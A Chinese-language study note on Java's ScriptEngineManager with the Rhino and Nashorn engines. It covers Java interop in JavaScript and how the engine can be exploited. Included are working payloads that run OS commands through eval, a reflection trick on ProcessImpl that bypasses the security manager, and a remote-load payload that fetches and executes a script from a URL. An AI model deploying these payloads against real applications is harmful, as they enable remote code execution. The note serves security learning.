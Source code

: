 # ScriptEngineManager

这是java开放的一个面向脚本语言的接口。下面简单总结一下利用方式

Java 6/7采用的js解析引擎是Rhino

java8开始换成了Nashorn。

## Hello World

```java
public class Test {
    public static void main(String[] args) {
        ScriptEngineManager manager = new ScriptEngineManager();
        ScriptEngine engine = manager.getEngineByName("nashorn");//java8
        try {
            engine.eval("print('Hello,World')");
        } catch (ScriptException e) {
            e.printStackTrace();
        }

    }
}
```

在eval中直接执行js的代码就可以了。

## 使用java对象

![image-20220111113416922](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20220111113416922.png)

- 反射绕过sm

  ```java
  import javax.script.ScriptEngine;
  import javax.script.ScriptEngineManager;
  
  public class main {
      public static void main(String[] args) throws Exception {
          String poc1 = "var s = [3];\n" +
                  "s[0] = \"cmd\";\n" +
                  "s[1] = \"/c\";\n" +
                  "s[2] = \"whoami\";" +
                  "var p = java.lang.Runtime.getRuntime().exec(s);\n" +
                  "var sc = new java.util.Scanner(p.getInputStream(),\"GBK\").useDelimiter(\"\\\\A\");\n" +
                  "var result = sc.hasNext() ? sc.next() : \"\";\n" +
                  "print(result);sc.close();";
  
          String bypass_sm_exp = "var str = Java.type('java.lang.String[]').class;" +
                  "var map = Java.type('java.util.Map').class;" +
                  "var string = Java.type('java.lang.String').class;" +
                  "var Redirect = Java.type('java.lang.ProcessBuilder.Redirect[]').class;" +
                  "var boolean = Java.type('boolean').class;" +
                  "var c = java.lang.Class.forName('java.lang.ProcessImpl');" +
                  "var start = c.getDeclaredMethod('start',str,map,string,Redirect,boolean);" +
                  "start.setAccessible(true);" +
                  "var anArray = [\"cmd\", \"/c\", \"ipconfig\"];" +
                  "var cmd = Java.to(anArray, Java.type(\"java.lang.String[]\"));" +
                  "var input = start.invoke(null,cmd,null,null,null,false).getInputStream();" +
                  "var reader = new java.io.BufferedReader(new java.io.InputStreamReader(input));" +
                  "var stringBuilder = new java.lang.StringBuilder();" +
                  "var line = null;" +
                  "while((line = reader.readLine())!=null){" +
                  "stringBuilder.append(line);" +
                  "stringBuilder.append('\\r\\n');"+
                  "}" +
                  "stringBuilder.toString();" +
                  "print(stringBuilder)";
          ScriptEngine engine = new ScriptEngineManager().getEngineByExtension("js");
          engine.eval(bypass_sm_exp);
      }
  }
  ```

  

- 方法的重载

  java中的方法会根据参数的不同而被重载。方法在js中被认为是类的一个属性，所以可以用.和[]调用

  ```
  var System = Java.type('java.lang.System');
  System.out['println'](3.14);          // 3.14
  System.out['println(double)'](3.14);  // 3.14
  System.out['println(int)'](3.14);     // 3
  ```

- 使用java的类型

  ```java
  var ArrayList = Java.type("java.util.ArrayList"); var a = new ArrayList(8);
  ```

  ```java
  //Nashorn
  var ArrayList = Java.type("java.util.ArrayList");
  var intType = Java.type("int");
  var StringArrayType = Java.type("java.lang.String[]");
  var int2DArrayType = Java.type("int[][]");
  var str = java.lang.String;
  //这种写法仅仅支持Nashorn，Rhino并不支持。jdk8+
  var str = Java.type("java.lang.String");//类型
  // Rhino
  var Array = java.lang.reflect.Array
  var intClass = java.lang.Integer.TYPE
  var array = Array.newInstance(intClass, 8)
  ```

  也可以通过这个方法来使用他们的静态方法

  ```java
  var File = Java.type("java.io.File");
  File.createTempFile("nashorn", ".tmp");
  //内部类
  var Float = Java.type("java.awt.geom.Arc2D$Float");
  huozhe
  var Arc2D = Java.type("java.awt.geom.Arc2D")
  var Float = Arc2D.Float
  ```

- 导包

  `nashorn:mozilla_compat.js`主要是靠这个

  ```java
  // Load compatibility script
  load("nashorn:mozilla_compat.js");
  // Import the java.awt package
  importPackage(java.awt);
  // Import the java.awt.Frame class
  importClass(java.awt.Frame);
  // Create a new Frame object
  var frame = new java.awt.Frame("hello");
  // Call the setVisible() method
  frame.setVisible(true);
  // Access a JavaBean property
  print(frame.title);
  ```

  有可能导致变量冲突，可以使用with来避免

  ```java
  / Create a JavaImporter object with specified packages and classes to import
  var Gui = new JavaImporter(java.awt, javax.swing);
  // Pass the JavaImporter object to the "with" statement and access the classes
  // from the imported packages by their simple names within the statement's body
  with (Gui) {
   var awtframe = new Frame("AWT Frame");
   var jframe = new JFrame("Swing JFrame");
  };
  ```

- 数组转换

  ```java
  // Convert the JavaScript array to a Java int[] array
  var javaIntArray = Java.to(anArray, "int[]");
  // Convert the JavaScript array to a Java String[] array
  var javaStringArray = Java.to(anArray, Java.type("java.lang.String[]"));
  // Convert the JavaScript array to a Java Object[] array
  var javaObjectArray = Java.to(anArray);
  ```

  `Java.from` 从java的列表转为js的

- 类的实现

  ```java
  var r = new java.lang.Runnable() {
   run: function() {
   print("running...\n");
   }
  };
  var th = new java.lang.Thread(r);
  th.start();
  th.join();
  ```

  但是在js里面可以直接给`Thread`转递方法

- 静态类

  ```java
  var task = new TimerTask {
   run: function() {
   print("Hello World!")
   }
  };
  ```

  ```java
  var Thread = Java.type("java.lang.Thread");
  var threadExtender = Java.extend(Thread);
  var t = new threadExtender() {
   run: function() { print("Thread running!") }};
  
  ```

- 方法

  使用父类的方

  ```java
   Java.super
  ```

## 远程加载

看了心心的yyds文章，既然`engine.eval`可以动态的执行js的代码，那么可不可以从远程来加载`js`呢？

`load("nashorn:mozilla_compat.js");`导包的时候，我们输入了一个url，我们测试如果把他改成url地址会怎么样呢?

![image-20220111152524500](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20220111152524500.png)

我们发现，他是去请求了。

最后的实现就是

```
String url = "http://127.0.0.1:8089/evil" ;
eval("load('"+url+"')");
```

evil

```java
var a=exp();function exp(){var x=new java.lang.ProcessBuilder; x.command("calc"); x.start();};
```

![image-20220111154456819](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20220111154456819.png)

![image-20220111155931737](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20220111155931737.png)

## 思考

在看心心的安全客时，我发现他对于知识的学习不是一味地照着别人的在做，是有自己思想的，我们不能成为一个单纯模仿别人的人，可以学习，但不可以**抄袭**